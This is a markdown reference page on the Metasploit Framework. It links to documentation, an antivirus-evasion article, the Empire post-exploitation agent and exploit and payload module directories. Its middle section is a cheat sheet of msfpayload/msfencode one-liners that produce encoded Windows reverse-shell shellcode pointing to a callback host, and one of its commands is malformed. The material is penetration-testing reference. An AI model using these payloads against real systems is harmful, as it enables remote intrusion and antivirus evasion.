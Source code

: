 # Metasploit Framework








### General

[What is Metasploit?](https://www.youtube.com/watch?v=TCPyoWHy4eA)

[Metasploit - github.io](https://metasploit.github.io/)
* It is the official “reference” page for the metasploit framework

[Facts and Myths about AV Evasion with the Metasploit Framework](http://schierlm.users.sourceforge.net/avevasion.html)

[MSF/Meterpreter cmd reference](http://hacking-class.blogspot.com/2011/08/metasploit-cheat-sheet-metasploit.html)

[Empire - Powershell Post-Exploitation Agent](http://www.powershellempire.com/)
* Empire is a pure PowerShell post-exploitation agent built on cryptologically-secure communications and a flexible architecture. Empire implements the ability to run PowerShell agents without needing powershell.exe, rapidly deployable post-exploitation modules ranging from key loggers to Mimikatz, and adaptable communications to evade network detection, all wrapped up in a usability-focused framework.



http://it-ovid.blogspot.com/2012/02/metasploit-and-meterpreter.html

Metasploit Framework - Payload Encoding
List all available payloads and search for windows reverse tcp shellsmsfpayload -l | grep windows | grep shell | grep reverse | tcp

List available encoders 
msfencode -l 

Reverse self-contained (not staged) command shell: 341 bytes 
msfpayload windows/shell_reverse_tcp LHOST=192.168.6.1 R | msfencode -e x86/shikata_ga_nai -b '\x00\x0a\x0b\x0d\x90' -t c

msfpayload windows/shell_reverse_tcp LHOST=192.168.6.1 R | msfencode -e x86/shikata_ga_nai -b '\x00\x0a\x0b\x0d\x90' -t c

Windows Command Shell, reverse Ordinal TCP Stager (Np NX or Win7) 
Use msf multi/handler to listen and upload remainder of the shellcode (stage 2)

msfpayload windows/shell/reverse_ord_tcp LHOST=192.168.6.1 R | msfencode -e x86/shikata_ga_nai -b '\x00\x0a\x0b\x0d\x90' -t c
Generic Syntax

msfpayload <payload> <options> <output>| ./msfencode -e <encoder> -b <bad bytes> -t <output format>

Contributing to Metasploit


[Writing an Exploit](https://github.com/rapid7/metasploit-framework/wiki/How-to-get-started-with-writing-an-exploit)
[Writing an Exploit for Metasploit by Corelan](https://www.corelan.be/index.php/2009/08/12/exploit-writing-tutorials-part-4-from-exploit-to-metasploit-the-basics/)
[Writing an Auxiliary module](https://github.com/rapid7/metasploit-framework/wiki/How-to-get-started-with-writing-an-auxiliary-module)

[Writing a Post-Exploitation module](https://github.com/rapid7/metasploit-framework/wiki/How-to-get-started-with-writing-a-post-module)
[Style tips for writing a Metasploit module](https://github.com/rapid7/metasploit-framework/wiki/Style-Tips)



[Metasploit Framework Module Github](https://github.com/rapid7/metasploit-framework/tree/master/modules)
* Easiest way of seeing the most current listing of any modules.
* All are Github pages for the Metasploit project


*  [Metasploit Framework Wiki](https://github.com/rapid7/metasploit-framework/wiki)
*  [Auxiliary Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/auxiliary)
*  [Auxiliary Module Fuzzers](https://github.com/rapid7/metasploit-framework/tree/master/modules/auxiliary/fuzzers)
*  [Denial-of-Service Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/auxiliary/dos)
*  [Auxiliary Gather Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/auxiliary/gather)
*  [Auxiliary Scanner Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/auxiliary/scanner)
*  [Server Auxiliary Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/auxiliary/server)
*  [Auxiliary Spoofing Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/auxiliary/spoof)
*  [Auxiliary VOIP Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/auxiliary/voip)
*  [Encoder Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/encoders)
*  [Payloads - Singles](https://github.com/rapid7/metasploit-framework/tree/master/modules/payloads/singles)
*  [Payloads - Singles - Windows](https://github.com/rapid7/metasploit-framework/tree/master/modules/payloads/singles/windows)
*  [Payloads - Singles - Linux x86](https://github.com/rapid7/metasploit-framework/tree/master/modules/payloads/singles/linux/x86)
*  [Payloads - Stagers](https://github.com/rapid7/metasploit-framework/tree/master/modules/payloads/stagers)
*  [Payloads - Stagers - Windows](https://github.com/rapid7/metasploit-framework/tree/master/modules/payloads/stagers/windows)
*  [Payloads - Stagers - Linux x86](https://github.com/rapid7/metasploit-framework/tree/master/modules/payloads/stagers/linux/x86)
*  [Exploits](https://github.com/rapid7/metasploit-framework/tree/master/modules/exploits)
*  [Exploits - Windows](https://github.com/rapid7/metasploit-framework/tree/master/modules/exploits/windows)
*  [Exploits - Linux])https://github.com/rapid7/metasploit-framework/tree/master/modules/exploits/linux)
*  [Exploits - Multi-Platform](https://github.com/rapid7/metasploit-framework/tree/master/modules/exploits/multi)
*  [Post-Exploitation Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/post)
*  [Post-Exploitation Windows Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/post/windows)
*  [Post-Exploitation Linux Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/post/linux)
